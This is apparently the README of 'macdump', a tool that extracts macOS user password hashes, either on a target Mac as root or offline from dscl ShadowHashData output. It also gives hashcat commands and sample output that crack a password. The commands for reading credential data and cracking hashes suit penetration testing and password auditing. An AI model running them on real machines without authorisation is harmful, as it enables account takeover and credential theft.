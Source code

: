 <h1 align="center">
  <img src="assets/macdump.png" alt="naabu" width="600px">
  <br>
</h1>

Dump macOS 1.8+ system user password hashes to a hashcat-compatible format.
Can work either directly on the target system to dump password hashes of all users (root
required) or offline on shadow hash data extracted from the system.

## Installation

Use the package manager pip to install to a local machine:

```bash
pip install macdump
```

To get a standalone executable to be transferred to target systems, either download
one from the release pages or build it with [pyinstaller](https://pyinstaller.org/en/stable/),
as shown in the [Makefile](Makefile) (`make build-executable`).

If Python is installed (it should be), you can also just copy the standalone
version of the script. Find it in [macdump.py](macdump.py)

## Usage

### On target system

To run macdump directly on the target system, transfer either the standalone
binary or the script [macdump.py](macdump.py) and run it as root.
Obviously, this will only work on macOS.
Output will be roughly as seen below.

Running the script (`sudo python macdump.py`) or the binary (`sudo ./macdump`):

```
 $ sudo python macdump.py
[+] Dumping hashes of all system users
[+] Dumping hash of testuser
[+] Authentication hint:  This is our default password
testuser:$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5
[+] Put hashes into file 'hashes.txt', then crack with: hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt
```

### Offline

You can extract the shadow hash data on the target Mac, store it to a text file and use that as
input for macdump.
To get the data for user `username`, run:

```bash
sudo dscl . -read /Users/username dsAttrTypeNative:ShadowHashData > /tmp/shd.txt
```

Note: You may also just include all data by running `sudo dscl . -read /Users/username > /tmp/shd.txt`,
which will output a lot of text. macdump finds what it needs.

Then get `/tmp/shd.txt` over to your machine and run:

```bash
 $ macdump --from-file /tmp/shd.txt
[+] Loading shadow hash data from /tmp/shd.txt
UNKNOWN_USER:$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5
[+] Put hashes into file 'hashes.txt', then crack with: hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt
```

### Cracking

Hashes are printed in hashcat format including usernames.
Store them inside a file `hashes.txt`, then run a command like the following:

```
 $ hashcat -m 7100 --username hashes.txt -a 0 wordlist.txt

hashcat (v6.2.5) starting

...

$ml$45871$f601fc65d033857cfc926ec2332058f791c1844f4e4fbb763568e063eafd742b$6eaf4c347e36648d471fe07fcf17b099d5f82ad050438d39dbad18a824b86d23165e69a881d699b0f3442658fe3ab77e9720e37
386e6d05ef4f945b443f61b51427582447514b810e3be3dce5d70ea8ec215b2babeed0d92275ad662a04467134140a807c28178bb377503a50d4be1ba9d5944af88df04824a7075d1f9f116d5:pass123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7100 (macOS v10.8+ (PBKDF2-SHA512))
...
```

Try this with the hash seen in the readme and a wordlist containing password
`pass123` to verify that your setup works.

## Disclaimer

Macdump is for research and educational purposes only. 
Do not run this without consent on anybody's machine.

## License
[MIT](https://choosealicense.com/licenses/mit/)
